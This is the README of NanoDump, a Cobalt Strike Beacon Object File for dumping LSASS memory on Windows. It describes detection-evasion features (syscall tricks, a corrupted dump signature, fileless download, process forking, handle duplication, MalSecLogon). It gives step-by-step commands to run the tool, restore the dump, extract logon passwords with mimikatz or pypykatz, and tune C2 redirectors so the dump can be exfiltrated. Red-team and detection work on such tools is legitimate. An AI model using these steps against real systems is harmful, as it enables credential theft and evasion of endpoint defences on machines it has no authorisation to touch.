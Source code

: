 # NanoDump

A Beacon Object File that creates a minidump of the LSASS process.

![screenshot](demo.png)

### Features
- It uses syscalls (with [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)) for most operations
- Syscalls are called from an *ntdll* address to bypass some syscall detections
- You can choose to download the dump without touching disk or write it to a file
- The minidump by default has an invalid signature to avoid detection
- It reduces the size of the dump by ignoring irrelevant DLLs. The (nano)dump tends to be arround 10 MB in size
- You don't need to provide the PID of LSASS
- No calls to *dbghelp* or any other library are made, all the dump logic is implemented in nanodump
- Supports process forking to avoid the permission `PROCESS_VM_READ`
- Supports handle duplication
- Supports MalSecLogon
- You can use the .exe version to run *nanodump* outside of Cobalt Strike :smile:

## Usage

### Clone

```bash
git clone https://github.com/helpsystems/nanodump.git
```

### Compile with MinGW (optional)

```bash
cd nanodump
make
```

### Import

Import the `NanoDump.cna` script on Cobalt Strike.


### Run

Run the `nanodump` command.

```
beacon> nanodump
```

### Restore the signature
Once you downloaded the minidump, restore the invalid signature
```zsh
bash restore_signature.sh <dumpfile>
```

### get the secretz

#### mimikatz
To get the secrets simply run:
```
mimikatz # sekurlsa::minidump <dumpfile>
mimikatz # sekurlsa::logonPasswords full
```

#### pypykatz
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz).  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```

## Parameters

#### --getpid (optional)
get PID of lsass and leave.

#### --pid -p < PID > (required only for --fork and --dup)
PID of lsass. If not entered, nanodump will find it dynamically.  
If the options --fork or --dup are used, this parameter is required

#### --write -w < path > (optional for BOF)
Where to write the dumpfile. If this parameter is not provided, the dump will be downloaded in a fileless manner.

#### --valid -v (optional)
If entered, the minidump will have a valid signature.  
If not entered, before analyzing the dump restore the signature of the dump, with: `bash restore_signature.sh <dumpfile>`  

#### --fork -f (optional)
If selected, nanodump will first create a handle to the target process with `PROCESS_CREATE_PROCESS` access, before spawning a 'clone' of the process. This new instance of the process will then be the target for memory dumping. While this will result in a new process creation, it removes the need to initially create a handle to lsass with `PROCESS_VM_READ`, which may trigger detection.

#### --dup -d (optional)
If selected, nanodump will search for an existing handle to LSASS and duplicate it in order to avoid opening a new handle

#### --seclogon -sl (optional)
If selected, nanodump will use MalSecLogon to leak a handle to LSASS.  
If used as BOF, a nanodump binary will be uploaded to the host!

## HTTPS redirectors
If you are using an HTTPS redirector (as you should), you might run into issues due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```

## Credits
- [skelsec](https://twitter.com/skelsec) for writing [minidump](https://github.com/skelsec/minidump), which was crucial for learning the minidump file format.
- [freefirex](https://twitter.com/freefirex2) from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) at Trustedsec for many cool tricks for BOFs
- [Jackson_T](https://twitter.com/Jackson_T) for [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
- [BillDemirkapi](https://twitter.com/BillDemirkapi) for [Process Forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
- [Antonio Cocomazzi](https://twitter.com/splinter_code) for [MalSecLogon](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)
